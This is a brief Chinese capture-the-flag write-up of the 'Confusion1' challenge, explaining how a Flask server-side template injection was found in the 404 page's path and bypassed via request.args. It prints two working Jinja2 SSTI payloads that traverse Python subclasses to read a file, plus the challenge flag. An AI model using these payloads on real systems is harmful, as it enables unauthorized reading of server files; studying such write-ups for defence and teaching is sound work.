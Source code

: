 # Confusion1

> flask ssti注入

## 思路分析

> 打开网址,登录页和注册页点击都是404,目录扫描没啥效果.陷入了死局,再次404后打开网页源码发现有提示,里面有flag文件的路径.找用户控制点,发现没有输入点,唯一可疑的就是404页中的请求路径,试下{{3+1}},发现返回信息中有4,说明存在ssti注入漏洞,这时发现网页后端是python flask写的,那么问题点是pyhon flask ssti注入点无疑了.直接输入payload会被过滤,提示选择其他方式.百度谷歌最后用request绕过.

## payload

>{{''.__class__.__mro__[2].__subclasses\[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt').read()}}

> {{''[request.args.a][request.args.b][2]\[request.args.c]()\[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')\[request.args.d]()}}?a=\_\_class__&b=\_\_mro__&c=\_\_subclasses__&d=read


## flag

> cyberpeace{b0c8cc0f2ad804d08c32013cbd840d72}

## 参考

> https://blog.csdn.net/solitudi/article/details/107752717
> https://blog.csdn.net/miuzzx/article/details/110220425